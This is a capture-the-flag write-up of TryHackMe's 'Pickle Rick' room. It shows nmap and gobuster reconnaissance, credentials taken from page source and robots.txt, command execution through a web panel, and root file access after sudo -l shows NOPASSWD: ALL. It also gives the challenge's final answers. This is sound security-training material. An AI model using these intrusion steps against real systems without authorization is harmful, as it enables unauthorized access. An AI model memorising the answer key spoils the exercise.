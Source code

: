 
# Pickle Rick - TryHackMe Writeup

This is a writeup for the "Pickle Rick" challenge on TryHackMe, you can find it [here](https://tryhackme.com/room/picklerick)

---

## Steps

### 1. Initial Reconnaissance
- Scanned the target with `nmap`:
  ```bash
  nmap -A -sV -p- [VICTIM IP]
  ```
- Example:
  ```bash
  nmap -A -sV -p- 10.10.252.115
  ```
- Flags explained:
  - `-A`: Aggressive scan (OS detection, version detection, scripts, traceroute).
  - `-sV`: Detect service versions.
  - `-p-`: Scan all 65,535 ports.
- Results:
  ```
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11
  80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
  ```
- Open ports: 2 (22 and 80).

### 2. Web Enumeration
- Visited `http://[VICTIM IP]` and inspected the source code. Found a comment:
  ```
  Note to self, remember username!
  Username: R1ckRul3s
  ```
- Ran `gobuster` without extensions first:
  ```bash
  gobuster dir -u http://[VICTIM IP] -w [WORDLIST PATH]
  ```
- Example:
  ```bash
  gobuster dir -u http://10.10.252.115 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
  ```
- Flags explained:
  - `dir`: Directory enumeration mode.
  - `-u`: Target URL.
  - `-w`: Wordlist path.
- Results:
  ```
  /assets        (Status: 301)
  /server-status (Status: 403)
  ```
- Checked `/assets`—nothing useful.
- Ran a more detailed `gobuster` scan with extensions:
  ```bash
  gobuster dir -u http://[VICTIM IP] -w [WORDLIST PATH] -x .php,.txt
  ```
- Example:
  ```bash
  gobuster dir -u http://10.10.252.115 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt
  ```
- Additional flag:
  - `-x .php,.txt`: Check for `.php` and `.txt` file extensions.
- Results:
  ```
  /login.php     (Status: 200)
  /assets        (Status: 301)
  /portal.php    (Status: 302) [--> /login.php]
  /robots.txt    (Status: 200)
  /denied.php    (Status: 302) [--> /login.php]
  /clue.txt      (Status: 200)
  ```

### 3. Gather Clues
- Checked `robots.txt`:
  ```
  Wubbalubbadubdub
  ```
- Assumed it was the password for `login.php`.
- Read `clue.txt`:
  ```
  Look around the file system for the other ingredient.
  ```

### 4. Access the Command Panel
- Visited `http://[VICTIM IP]/login.php`, entered:
  - Username: `R1ckRul3s`
  - Password: `Wubbalubbadubdub`
- Logged in successfully to a "Command Panel" allowing command execution.

### 5. Find the First Ingredient
- Ran `ls` :
  ```
  Sup3rS3cretPickl3Ingred.txt  assets  clue.txt  denied.php  index.html  login.php  portal.php  robots.txt
  ```
- Tried `cat Sup3rS3cretPickl3Ingred.txt`:
  ```
  Command disabled to make it hard for future PICKLEEEE RICCCKKKK.
  ```
- Used `less` instead:
  ```
  less Sup3rS3cretPickl3Ingred.txt
  ```
- Output: `mr. meeseek hair`
- First ingredient: `mr. meeseek hair`.

### 6. Privilege Check and Further Exploration
- Checked `sudo` privileges:
  ```
  sudo -l
  ```
- Output:
  ```
  User www-data may run the following commands on ip-10-10-252-115:
      (ALL) NOPASSWD: ALL
  ```
- Realized I could run any command as root without a password.

### 7. Find the Second Ingredient
- Searched for `.txt` files as root:
  ```bash
  sudo find / -name "*.txt" 2>/dev/null
  ```
- Flags explained:
  - `find /`: Search entire filesystem.
  - `-name "*.txt"`: Match files ending in `.txt`.
  - `2>/dev/null`: Suppress permission errors.
- Found `/root/3rd.txt` but no second ingredient there.
- Explored with `sudo ls`:
  ```bash
  sudo ls /home
  ```
- Output: `rick`
- Checked Rick’s directory:
  ```bash
  sudo ls /home/rick
  ```
- Found `second ingredients` (note the space).
- Read it:
  ```bash
  sudo less "/home/rick/second ingredients"
  ```
- Output: `1 jerry tear`
- Second ingredient: `1 jerry tear`.

### 8. Find the Third Ingredient
- From the earlier `find` output, checked `/root/3rd.txt`:
  ```bash
  sudo less /root/3rd.txt
  ```
- Output: `fleeb juice`
- Third ingredient: `fleeb juice`.

---

## Answers to Challenge Questions
1. **First ingredient Rick needs**: `mr. meeseek hair`
2. **Second ingredient in Rick’s potion**: `1 jerry tear`
3. **Last and final ingredient**: `fleeb juice`

---

## Tools Used
- `nmap`: Port and service enumeration.
- `gobuster`: Web directory and file enumeration.
- Browser: Manual inspection and login.

---

## Lessons Learned
- Source code comments can reveal credentials (e.g., username).
- Adding file extensions to `gobuster` uncovers hidden pages.
- Command execution panels may disable common commands like `cat`, but alternatives like `less` work.
- `sudo -l` revealing `NOPASSWD: ALL` is a golden ticket for root access.
- Spaces in filenames need quotes (e.g., `"second ingredients"`).

---
